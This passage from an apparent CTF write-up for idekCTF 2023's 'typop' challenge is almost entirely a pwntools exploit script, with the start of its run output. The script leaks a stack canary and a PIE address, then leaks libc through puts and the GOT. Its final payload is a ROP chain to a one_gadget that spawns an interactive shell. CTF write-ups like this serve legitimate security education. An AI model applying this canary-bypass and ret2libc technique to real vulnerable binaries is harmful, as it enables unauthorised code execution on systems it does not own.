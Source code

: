 ```
payload2 = padding
payload2 += p64(canary)
payload2 += b'a' * 8

payload2 += b'\x42'
target.send(payload2) 

print(target.recvuntil(b'ctf?'))
payload3 = b'a' * 0x1a
target.send(payload3)
print(target.recvuntil(payload3))
leak = target.recv(6)
print(leak)
main_55 = u64(leak + b'\x00' * 2)
pie_base = main_55 - elf.symbols['main'] - 55
pop_rdi = pie_base + 0x00000000000014d3
pop_rsi_r15 = pie_base + 0x00000000000014d1
writable = pie_base + elf.bss()
print(hex(pop_rdi))

payload4 = padding
payload4 += p64(canary)
payload4 += b'b' * 8
payload4 += p64(pop_rdi)
payload4 += p64(pie_base + elf.got['puts'])
payload4 += p64(pie_base + elf.symbols['puts'])
payload4 += p64(pie_base + elf.symbols['getFeedback'])
target.sendline(payload4)

print(target.recvuntil(b'feedback?\n'))
leak = target.recv(6)
puts_libc = u64(leak + b'\x00' * 2)
print(hex(puts_libc))
libc_base = puts_libc - libc.symbols['puts']
onegadget = libc_base + 0xe3b01
pop_rdx = libc_base + 0x0000000000142c92
print(hex(pop_rdx))


print(target.recvuntil(b'ctf?'))
payload5 = b'a' * 2
target.send(payload5)
print(target.recvuntil(payload5))


payload6 = padding
payload6 += p64(canary)
payload6 += b'b' * 8
payload6 +=p64(pop_rdx)
payload6 += p64(0)
payload6 += p64(onegadget)

target.sendline(payload6)

target.interactive()
```
It should look something like this when run:
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/idekCTF23/typop/attachments$ python3 typop_exploit.py NOPTRACE
[+] Starting local process './chall': pid 15644
[!] Skipping debug attach since context.noptrace==True
[*] '/mnt/c/Users/Owner/Desktop/CTF_Files/idekCTF23/typop/attachments/chall'
```